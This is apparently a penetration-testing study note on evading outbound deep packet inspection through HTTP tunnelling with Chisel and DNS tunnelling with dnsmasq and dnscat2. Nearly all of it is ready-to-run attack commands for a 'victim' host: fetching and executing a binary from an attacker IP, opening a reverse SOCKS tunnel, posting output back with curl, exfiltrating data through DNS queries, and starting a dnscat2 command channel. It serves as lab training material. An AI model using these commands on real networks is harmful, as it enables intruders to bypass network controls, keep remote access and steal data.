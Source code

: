 # Reason use
1. Deep Packet Inspection (app layer 7) of Outbound is inplemented
2. Only some format/protocol of data can use e.g. HTTP, DNS
3. Use tunneling

# HTTP Tunneling
## Chisel
- choose correct version & architecture: https://github.com/jpillora/chisel/releases
- transfer chisel to victim ``` bash -c 'wget "http://192.168.118.4/chisel" -O /tmp/chisel && chmod +x /tmp/chisel' ```
- kali host: ``` chisel server --port 8080 --reverse ```
- run chisel client in victim: ``` /tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 & ```
- run with error output: ``` /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/ ```
- Debug with tcp packet anaylsis: ``` sudo tcpdump -nvvvXi tun0 tcp port 8080 ```
- OR check status of socks (same as be4): ``` ss -ntplu ```
- use ncat w/ Proxycommand to connect ``` ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215 ``` 

### Support local port / dynamic port fwing 
- local version like this (in victim) ``` /tmp/chisel client 192.168.45.225:8080 R:1080:10.4.225.215:8008  ```
- check this doc: https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/ 


# DNS Tunneling
## Logic behind
- NOT STEALTHY since so many packet 
- UDP 53
- reg a sussy DNS with a wanted domain name ```feline.corp ``` (this domain is important as if only original dns cant find then will redirect to you)
- check victim current Dns server: ``` resolvectl status ```
- run in rogue DNS server: ``` sudo dnsmasq -C dnsmasq.conf -d ``` 
- run in victim ``` nslookup exfiltrated-data.feline.corp ``` & check ``` sudo tcpdump -i ens192 udp port 53 ``` to see if tcp have query record
- Smuggling data thru TXT record

## dnscat2
- listen if success by traffic tcp ``` sudo tcpdump -i ens192 udp port 53 ```
- dns server: ``` dnscat2-server feline.corp ```
- victim: ``` ./dnscat feline.corp ```
- open window for us to interact dns server & 1 = the window of connected (could be others so run ``` window ``` first) : ``` window -i 1 ```
- 
